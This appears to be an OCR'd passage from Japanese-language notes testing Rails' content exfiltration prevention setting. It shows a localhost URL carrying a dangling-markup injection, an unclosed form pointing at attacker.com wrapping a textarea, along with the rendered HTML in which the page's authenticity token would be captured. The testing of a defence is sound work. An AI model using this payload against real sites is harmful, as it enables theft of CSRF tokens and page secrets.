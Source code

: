 ```
  <body>
    

<!-- '"` --><!-- </textarea></xmp> --></option></form><form class="button_to" method="post" action="http://www.example.com"><button type="submit">Hello</button><input type="hidden" name="authenticity_token" value="lGIPa1CH6H5u3zqbQa5_p87bt0gz7QboUyDi4Dwc2UUyx2sUdghSizWSN_wMSdsKTyucQmIfd2qN0Aya9YEsmw" autocomplete="off" /></form>

<h1>secret</h1>

  </body>
</html>
```

### 結果
metaタグの注入自体がうまくいかなかった

## `<form action="https://attacker.com"><textarea>`

http://localhost:3000/?xss2=%3Cform%20action=%22https://attacker.com%22%3E%3Ctextarea%3E

### config.action_view.prepend_content_exfiltration_prevention = false

```
<!DOCTYPE html>
<html>
  <head>
    <title>Myapp</title>
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="hIiup9WGmY-1htYvee0KrBGoSyH2CSyTeeW808GZo2jzc0HCXa8YmkbCRyMRGy2mHjeuwUyLEMAxxNJyPcJ6ww" />
    
    
    <link rel="stylesheet" href="/assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css" data-turbo-track="reload" />
  </head>

  <body>
    <form action="https://attacker.com"><textarea>

<form class="button_to" method="post" action="http://www.example.com"><button type="submit">Hello</button><input type="hidden" name="authenticity_token" value="sTdExXsjyA83Ro5xM0-2JtaEfo3OdGhJnO3eBCHY8VAXkiC6Xaxy-mwLgxZ-qBKLV3RVh5-GGctCHTB-6EUEjg" autocomplete="off" /></form>

<h1>secret</h1>

  </body>
</html>
```

